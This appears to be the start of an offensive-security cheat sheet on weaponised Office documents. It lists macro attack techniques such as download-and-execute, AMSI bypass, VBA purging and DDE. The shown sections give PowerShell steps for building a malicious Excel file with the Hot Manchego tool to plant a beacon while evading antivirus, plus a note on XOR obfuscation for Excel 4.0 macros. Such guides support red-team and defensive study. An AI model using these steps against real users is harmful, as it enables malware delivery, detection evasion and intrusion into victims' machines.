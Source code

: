 # Office - Attacks 

## Summary

* [XLSM - Hot Manchego](#xlsm---hot-manchego)
* [XLS - Macrome](#xls---macrome)
* [XLM Excel 4.0 - SharpShooter](#xlm-excel-40---sharpshooter)
* [XLM Excel 4.0 - EXCELntDonut](#xlm-excel-40---excelntdonut)
* [XLM Excel 4.0 - EXEC](#xlm-excel-40---exec)
* [DOCM - Metasploit](#docm---metasploit)
* [DOCM - Download and Execute](#docm---download-and-execute)
* [DOCM - Macro Creator](#docm---macro-creator)
* [DOCM - C# converted to Office VBA macro](#docm---c-converted-to-office-vba-macro)
* [DOCM - VBA Wscript](#docm---vba-wscript)
* [DOCM - VBA Shell Execute Comment](#docm---vba-shell-execute-comment)
* [DOCM - VBA Spawning via svchost.exe using Scheduled Task](#docm---vba-spawning-via-svchostexe-using-scheduled-task)
* [DCOM - WMI COM functions (VBA AMSI)](#docm---wmi-com-functions)
* [DOCM - winmgmts](#docm---winmgmts)
* [DOCM - Macro Pack - Macro and DDE](#docmxlm---macro-pack---macro-and-dde)
* [DOCM - BadAssMacros](#docm---badassmacros)
* [DOCM - CACTUSTORCH VBA Module](#docm---cactustorch-vba-module)
* [DOCM - MMG with Custom DL + Exec](#docm---mmg-with-custom-dl--exec)
* [VBA Obfuscation](#vba-obfuscation)
* [VBA Purging](#vba-purging)
    * [OfficePurge](#officepurge)
    * [EvilClippy](#evilclippy)
* [VBA AMSI](#vba-amsi)
* [VBA - Offensive Security Template](#vba---offensive-security-template)
* [DOCX - Template Injection](#docx---template-injection)
* [DOCX - DDE](#docx---dde)
* [References](#references)

## XLSM - Hot Manchego 

> When using EPPlus, the creation of the Excel document varied significantly enough that most A/V didn't catch a simple lolbas payload to get a beacon on a target machine.

* https://github.com/FortyNorthSecurity/hot-manchego

```ps1
Generate CS Macro and save it to Windows as vba.txt
PS> New-Item blank.xlsm
PS> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:EPPlus.dll hot-manchego.cs
PS> .\hot-manchego.exe .\blank.xlsm .\vba.txt
```

## XLM - Macrome

> XOR Obfuscation technique will NOT work with VBA macros since VBA is stored in a different stream that will not be encrypted when you password protect the document. This only works for Excel 4.0 macros.
